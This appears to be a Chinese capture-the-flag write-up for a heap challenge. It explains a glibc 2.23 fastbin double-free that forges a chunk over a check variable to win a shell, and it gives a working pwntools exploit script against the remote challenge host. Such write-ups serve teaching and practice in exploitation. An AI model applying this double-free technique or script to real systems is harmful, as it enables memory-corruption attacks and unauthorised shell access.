

## 文件分析
下载 Double, NX on, PIE off, Canary on, RELRO full
ghidra 分析为 64 位程序

## 解题思路
堆入门题，打开了我学习堆的大门

题目要求 check_num[2] = 0x666 就可以给 shell，由于目标 libc 是 2.23， 所以可以直接利用 fastbin 的 double free，伪造一个块到 check_num 上 （size 已经帮我们伪造好了）

## 前置知识
fastbin double free 由于检查少，因此较为简单，但是仍要注意：必须隔一个释放，且必须把需要伪造的块头处理好

### 释放chunk0, chunk1


### 再次释放chunk1



### 分配chunk1，控制其fd


```
prev_size = 0
size = 0x31
fd = &fake_chunk
...
```

注意会检查释放的块与头指向的块是否相等，所以不能直接释放同一个块2次

## EXPLOIT
```python
from pwn import *
sh = remote('node4.buuoj.cn', 29665)

def add(idx:int, con:bytes=b'what'):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(con)

def rem(idx:int):
    sh.recvuntil(b'>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def chk():
    sh.recvuntil(b'>')
    sh.sendline(b'3')

add(0)
add(1)
rem(0)
rem(1)
rem(0)

add(0, p64(0x602060)) # fd override (chunk 0 now points to fake chunk)
add(1)
add(2)

add(3, p64(0x666)) # fake chunk allocated
chk()
sh.interactive()
```

Done.